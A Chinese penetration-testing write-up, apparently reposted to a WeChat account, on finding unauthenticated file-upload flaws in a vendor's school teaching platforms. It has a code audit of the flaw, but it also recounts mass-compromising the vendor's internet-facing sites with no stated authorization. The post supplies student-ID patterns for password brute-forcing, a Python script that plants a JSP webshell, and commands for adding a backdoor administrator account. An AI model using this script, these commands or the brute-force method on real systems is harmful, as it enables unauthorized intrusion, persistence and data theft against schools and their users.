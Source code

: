 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/qkr0aGFvowRtZbCcGoxDzQ)

免责声明：本公众号发布的资源和文章均转载自互联网或经作者投稿授权的原创，文末已注明出处，其内容和图片版权归原网站或作者本人所有，并不代表渗透云笔记的观点，若有无意侵权或转载不当之处请联系我们处理，谢谢合作！

**文章来源于；https://xz.aliyun.com/t/9332**

**前言**：此次挖洞较为基础，分析得不足的地方望大佬指正。  
**内网挖洞**：  
建议像我这样入门不久的可以拿自己学校内网练练手先（得授权），再在在教育行业 SRC 等漏洞平台上挖掘漏洞，赢得认可，获取些动力。<大佬的当我没说 0.0>  
向信息中心的老师申请了对学校进行内网渗透测试的授权之后，便开始信息收集（亮神说的：渗透的本质是信息收集）。  
因为在工作室辅助运维也知道服务器多在 10.x.x.0/24 这网段，这里我用 Goby 对该网段收集存活 ip 和端口。(因为真实 ip 可以绕过 waf 所以可以放开扫，当然其它大学就不一定了)  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/k89AZuPTXhxqJC5gNQ2lGQia9Vu2icvxO4exuuwwjciajG70YhbQQ9EvdXl2tzyFs2qDBP0BKr9XwXF89iargkia8lA/640)  
内网一堆漏洞 emm，然后就可以用大佬的 webalivescan 批量扫一下 Goby 得的存活 ip，获取标题，web 指纹识别和简单的爆破一些目录  
工具地址：https://github.com/broken5/WebAliveScan  
然后先挑带登录标题的，目录扫描到登录的或敏感目录的软柿子开干，发现 xx 教学平台

![](https://mmbiz.qpic.cn/sz_mmbiz_png/k89AZuPTXhxqJC5gNQ2lGQia9Vu2icvxO4wYzOHz9sMYoQgb9HZdDV5bD19XWtBhibicAoyNcuJPKkKETyyKfAN8Pg/640)

没有验证码爆破，当然有的有验证码也可能虚的，根据自己学号推测 ，  
例如 2018xx  一般是根据 入校年数 + 专业 + 班级 + xx 来设定的，爆破后 4 位得到弱口令：  
2018xx       123456  
然后常规的：xxx--> 控制面版 --> 上传头像 -->Getshell。  
当然很多 jsp 马都没兼容，试了挺多这大佬的 jsp 马才成功  
地址：https://github.com/threedr3am/JSP-Webshells  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/k89AZuPTXhxqJC5gNQ2lGQia9Vu2icvxO4vuDq2O53bUibnchzoicsNaiaUjdUbDuIokjmN8OzePESuTZvFkkSfEAhA/640)  
直接 administrator 权限，提权都省了  
外网批量：  
上面图有：技术支持：xx 公司  
FOFA 搜索关键词：xxx 有限公司

![](https://mmbiz.qpic.cn/sz_mmbiz_png/k89AZuPTXhxqJC5gNQ2lGQia9Vu2icvxO4MDcS69C6xYHFpyVkNgIc4C1XSfgKjlaPp1NANfpC6kSBMibic422CrbA/640)

然后挑一个站，爆破，xx 学校，学号通过谷歌语法来搜集。  
如果收集不到, 大多学校学号是如下规律:  
2001 0077 入学的时间 + 报到位次  
2018 031 01 05 入校年数 + 专业 + 班级 + xx  
2018 1 17 001    入学年 + 1 本科学生 + 17xx 招生专业代号，001 这专业第一个学生。  
爆破失败，才恍然大悟，可能未授权文件上传呢。  
于是在 burp 将 HOST 地址改成目标的地址，发送数据包

![](https://mmbiz.qpic.cn/sz_mmbiz_png/k89AZuPTXhxqJC5gNQ2lGQia9Vu2icvxO4ice7HgN5nxO4BvicJNDenFgXagGCp5nrDEjs7ayM0O1o8ibSyfaFTeIwg/640)  
一发入魂，成功上传图片, 改 jsp 也没问题，欧克妥妥的未授权文件上传！  
该网站 Getshell 后尝试 3389 登录：  
net user mstlab mstlab /add : 添加用户并设置密码  
net localgroup administrators mstlab /add : 将用户加入管理组  
登录后在其桌面翻到敏感信息：测试账号和默认密码

![](https://mmbiz.qpic.cn/sz_mmbiz_png/k89AZuPTXhxqJC5gNQ2lGQia9Vu2icvxO4e68HmDlAzdrYb8DFdgqczQM0FExUtLf9hicl0EcpLUooqXIuvy66icWA/640)

同时这只是该公司的一个系统，又扩展到其它系统：（也大多成功上传）

![](https://mmbiz.qpic.cn/sz_mmbiz_png/k89AZuPTXhxqJC5gNQ2lGQia9Vu2icvxO4psdVU5XATia3n2twWbkJW2kRv95gSogkcaH7mtF6vxBzljhT6BwlZpA/640)

但有些系统还是不行，于是用测试账号登录发现这些系统的第二处未授权文件上传，很老的 FCKedito，可运行哥斯拉马

![](https://mmbiz.qpic.cn/sz_mmbiz_png/k89AZuPTXhxqJC5gNQ2lGQia9Vu2icvxO4lqYMyOeMltPTSzKMaLWPc771ibJrGq0IaAL9SCzSXbwysbpT5eEeeow/640)

至此该公司的系统基本通杀

**Exploit 编写**：  
当然少量写个 html 文件上传就 ok 了，这里较多站就写个一键返回 shell 脚本。下面的已脱敏

```
import requests
# 读取webshell文件，
file = open('shell.txt', 'r',encoding='utf-8')
shell = file.read()
#shell=""" <%  out.println("just4test！"); %>  """
headers = { "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:82.0) Gecko/20100101 Firefox/82.0"}
cookies={"JSESSIONID":"4F0ADEADB70AD18922C8C436837A5A3D", }
# 输入目标
url = input("input the TARGET(example:[url]https://127.0.0.1:1080[/url])>")
# 定义上传目录
upload_url = url+"/xxx?action=xx"
#file参数files = {'file1': ('1.png', open('logo.png', 'rb'), 'image/png')}
files = {'file': ("shell.jsp", shell, "image/png")}
# 参见post内容
upload_data = {"start": "forum_update_set", "forum_update_set": "updatacord", "forum_nick": "11", "forum_signature": " ", "forum_pic_2": " ", }
# 上传
upload_res = requests.post(upload_url, headers=headers,cookies=cookies, data=upload_data, files=files)
# 此时会返回上传文件的路径
path = upload_res.text
# 解析返回值获取上传地址
path = path[path.find('data')+4:path.rfind('jsp') ]
# 再结合路径
shell_url = url+"/dta"+path+"jsp?cmd=whoami"
# 返回结果，默认是system权限
print('shell is here:'+shell_url)
```

**白盒审计:**  
最近刚好入门了 java web 开发，虽然 Getshell 了，但也得了解漏洞原理吧。于是就打包源码，代码审计一下，看一下漏洞原理  
源码一般在 Tomcat 的 webapps 目录或者  
Tomcat 下的 conf 目录 \ Catalina\localhost\ 下的配置文件  
有自定义源码工程路径：如 abc.xml 内容：

```
<!-- 
Context 表示一个工程上下文 ,path 表示工程的访问路径:/abc ,
docBase 表示你的工程目录在哪里 
--> 
<Context path="/abc" docBase="E:\book" ></Context>
```

访问这个工程的路径如下: http://ip:port/abc/ 就表示访问 E:\book 目录  
然后我在 Tomcat 的 webapps 找到源码并用哥斯拉的打包

![](https://mmbiz.qpic.cn/sz_mmbiz_png/k89AZuPTXhxqJC5gNQ2lGQia9Vu2icvxO4WpqF8ZoyLzj7eP4kvqx9JgGH2ccjHlUUC3yCDaVyrickvOTFOgPfz3Q/640)

**第一个文件上传：**  
首先查看 web.xml, 看看全局的配置以及路由，先看 filter 过滤, 可以看到 filter 类 QDKFilte 的位置  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/k89AZuPTXhxqJC5gNQ2lGQia9Vu2icvxO42mRGc5iaS89Zkeb896p0zR2BcnL7UZP8gFL629wwCH3pVoZYVibpCVoQ/640)

但我们的源码没有对应的 java 文件或者类，便看 java 依赖有对应的 java 包 xxx.jar  
反编译用 IDEA 的插件 “Java Bytecode Decompiler”，插件安装使用可自行百度

![](https://mmbiz.qpic.cn/sz_mmbiz_png/k89AZuPTXhxqJC5gNQ2lGQia9Vu2icvxO4ic2xW3gudwt1KWiahJCEfiauLvxS6QrWvP1WPYNfHaiaMicibJwbfqmSMkmQ/640)

反编译成功后得到对应 xx.jar, 注意要解压生成的 jar 包，即可得到 java 源码  
然后 filter 类 QDKFilte 代码经过混淆, 太烦杂, 太多了并没找到 session 如何验证。。。。大佬请勿喷 0.0 我是菜鸡!!!

![](https://mmbiz.qpic.cn/sz_mmbiz_png/k89AZuPTXhxqJC5gNQ2lGQia9Vu2icvxO4Hxeeicw6Ic2Iu6Od4c7MGyUFXLyJiadlhBvQcG7J78cxRaYf7TQMTJwg/640)

然后文件上传漏洞 web.xml 可以看到文件上传的类  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/k89AZuPTXhxqJC5gNQ2lGQia9Vu2icvxO4DpnNHFF5aOal2t8CHqFaszxKibfNZOxJlD4iaeLTNuJ6TaI4bUjteyhw/640)

var13 从全局函数获取传递的参数和值

![](https://mmbiz.qpic.cn/sz_mmbiz_png/k89AZuPTXhxqJC5gNQ2lGQia9Vu2icvxO4abxhWorwibG1hLTRyqoXkcJzWveVmAUW0DSV9iaOBX6A8Ndhhl38R8Qg/640)

然后 getFileExtendName（var13）直接获取后缀名并直接拼接起来，然后创建文件

![](https://mmbiz.qpic.cn/sz_mmbiz_png/k89AZuPTXhxqJC5gNQ2lGQia9Vu2icvxO4zJvozlgNuNnyoJAQI6PZ3JPM1KEA6xhDB6HqlfaAylcYIib0m05aYvQ/640)

跟进 getFileExtendName（）是直接获取后缀的

![](https://mmbiz.qpic.cn/sz_mmbiz_png/k89AZuPTXhxqJC5gNQ2lGQia9Vu2icvxO4sroA9HgZpz70Ed1pFQZhUssvQdxyaHO3fibIhZRhOwFLTLptugK9gHQ/640)

**第二个文件上传**漏洞的上传路径是  
http:/ip:8080/xxx/FCKeditor/editor/xxx/jsp/upload.jsp

找到对应的文件：  
和上面的类似用 getFileExtendName（）直接获取后缀的然后拼接没白黑名单  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/k89AZuPTXhxqJC5gNQ2lGQia9Vu2icvxO4Z4yHEDhcTKia0Hu8T7KaElqrH9NNWtQJ1DwQgcNlcZ1RgoLrIrsnsSw/640)

原文请跳转

全世界只有不到 **3 %** 的人关注了渗透云笔记

你真是个特别的人